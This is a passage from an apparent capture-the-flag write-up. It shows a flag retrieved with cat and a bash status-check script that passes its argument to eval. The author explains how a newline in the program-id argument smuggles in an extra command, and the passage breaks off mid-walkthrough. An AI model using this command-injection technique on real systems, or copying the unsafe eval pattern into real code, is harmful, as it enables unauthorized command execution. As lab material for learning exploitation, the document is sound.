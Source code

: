 ```bash
cat /opt/services/management-service/master.txt; 
FLAG-3788fe305304d7eabf7e92e68e7ca430 #thanks @Robin ;)
```

We have the part1.flag. 

Finaly, discovered that the part2.flag was NOT related to the second x-function of that service! The idea is that the `change_master() function` is using a `fakechroot`. Wich mean that it runs its own lib.c, BUT is still relative to the `tech's filesystem`

#### status-service

`cat /opt/services/status-service/check-status.sh`

```bash
#!/bin/bash
if [ $# -eq 0 ]; then
        echo "Usage check-status.sh [program-id]"
        exit
fi

if [ -z "$1" ]; then
        echo "Program ID must not be empty"
        exit
fi


if [ ! -d "$path" ]; then
        echo "Program ID is invalid"
        exit
fi

status=$(eval "cat /opt/status/$1.txt")

if [[ $status == *"DOWN"* ]]; then
        echo "Service is DOWN"
        exit
fi

if [[ $status == *"UP"* ]]; then
        echo "Service is UP"
        exit
fi

echo "Unknown service status"

```

Ok so the `var status` is what `eval` returns. Basically, `eval` simply runs every lines as different commands. So let's exploit this! ;)

`status=$(eval "cat /opt/status/$1.txt")`
###### Note:
```bash
eval 'echo woot1
> echo woot2'
woot1
woot2

# what we need's ish...
eval "cat /opt/status/a_valid_dir
> run_cmd > out
> '
```
```bash
cd /tmp/
```